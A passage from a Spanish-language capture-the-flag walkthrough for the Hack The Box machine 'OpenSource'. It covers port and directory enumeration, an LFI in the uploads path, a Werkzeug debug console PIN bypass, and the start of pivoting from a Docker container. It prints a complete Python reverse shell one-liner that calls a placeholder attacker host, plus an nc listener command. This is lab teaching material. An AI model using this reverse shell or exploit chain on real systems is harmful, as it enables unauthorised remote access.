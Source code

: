 # OpenSource

![OpenSourcew](https://user-images.githubusercontent.com/97627828/174652864-db0b100b-bf24-4f44-b614-aed5a43e254c.png)

## Initial Enumeration

```
❯ sudo nmap -sS -sV -O -sC -v -p22,80,3000 opensource.htb 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-20 13:41 EDT
Nmap scan report for opensource.htb (10.10.11.164)
Host is up (0.096s latency).

PORT     STATE    SERVICE VERSION
22/tcp   open     ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
80/tcp   open     http    Werkzeug/2.1.2 Python/3.10.3
3000/tcp filtered ppp
```
Comenzaremos interactuando con el puerto 80.

![image](https://user-images.githubusercontent.com/97627828/174655163-f66d3f8c-2586-4b3a-9bba-ebcf6f5a5861.png)

Tras inspeccionar el código fuente de la web se encuentra lo siguiente:
- /download: permite descargar un archivo .ZIP con lo que parece el código fuente de la app que permite la carga de archivos al servidor web.

  ![image](https://user-images.githubusercontent.com/97627828/174656635-94cacc71-e4a9-4998-8a45-6ee78094a71c.png) 
  - Al descargar el archivo source.zip encontramos lo siguiente:

    ![image](https://user-images.githubusercontent.com/97627828/174657965-cac681eb-c08f-4ae3-b77b-884f4fe7d013.png)

- /upcloud: función de carga de archivos al wervidor web.

  ![image](https://user-images.githubusercontent.com/97627828/174657055-234ac1d4-be90-409f-b3c5-5e00dcda9820.png)

- /uploads/nombre-del-archivo-subido (url en la que la página almacena los archivos que se suben, al visitarla se descarga el archivo subido previamente).

  ![image](https://user-images.githubusercontent.com/97627828/174657164-0126a1e7-afbc-4e28-b9c7-d1f150139f74.png)


Para continuar descubriendo directorios, se utiliza "gobuster"
```
❯ sudo gobuster dir -u http://opensource.htb -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt                                                                                                                   
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://opensource.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/06/20 13:57:07 Starting gobuster in directory enumeration mode
===============================================================
/download             (Status: 200) [Size: 2489147]
/console              (Status: 200) [Size: 1563] 
```
Llama la atención el directorio /console, no encontrado previamente. Al visitarlo nos encontramos con lo siguiente:

  ![image](https://user-images.githubusercontent.com/97627828/174658439-5c27e163-6fba-4ca5-b959-3ed76f416704.png)

## Primera manera de conseguir user.txt ##

Tras realizar una búsqueda en _San Google_ se encuentra el siguiente repositorio https://github.com/wdahlenburg/werkzeug-debug-console-bypass en donde se indica que los servidores Werkzeug tienen una consola para debugging que exije un PIN para ejecutar comandos y que en caso de encontrar una vulnerabilidad LFI se podría generar un PIN válido y de esta manera ejectutar comandos en el servidor. 

El primer paso es encontrar la LFI, para ello recurro a Burpsuite, dado que los archivos se almacenan en /uploads empezaremos por ahí. Bingo! Existe LFI:

  ![image](https://user-images.githubusercontent.com/97627828/174660689-71d3fa57-afe2-400c-b69c-fefae745ee9c.png)

Siguiendo los pasos indicados en https://github.com/wdahlenburg/werkzeug-debug-console-bypass se consigue obtener un PIN válido para la consola y finalmente se consigue acceso a la consola de python.

  ![image](https://user-images.githubusercontent.com/97627828/174661686-8733597a-5ddc-4ddd-8e84-bf21d0e54688.png)
  ![image](https://user-images.githubusercontent.com/97627828/174662127-bf140d1d-5b40-4f9f-acc4-b5d6bf77edeb.png)

Como se puede visualizar en la imagen, se ejecutan los comandos en la consola python y se obtiene el código de salida de python de cada comando. El siguiente paso es ejecutar una reverse shell en python, para ello pondre un puerto a la escucha con el comando `nc -lvp <puerto>` y utilizaré el comando `import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("KALI-IP",KALI-PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);`

Se obtiene así la primera shell, al listar el contenido de la raíz se observa un archivo ".dockerenv"  por lo que se sabe que estamos dentro de un contenedor Docker, lo cual encaja con el hecho de que la shell obtenida sea como usuario root.

Para continuar con el pivoting, tras una larga búsqueda se comprueba que el puerto 3000 inicialmente inaccesible, se encuentra ahora accesible en la ip 172.17.0.1 correspondiente con el host del contenedor docker. 
 ![image](https://user-images.githubusercontent.com/97627828/174666337-481ff02d-d80e-4480-86ca-3f5a4fab8cb1.png)
 ![image](https://user-images.githubusercontent.com/97627828/174666547-fd032f01-cd7a-4442-a582-2433c1ba8052.png)





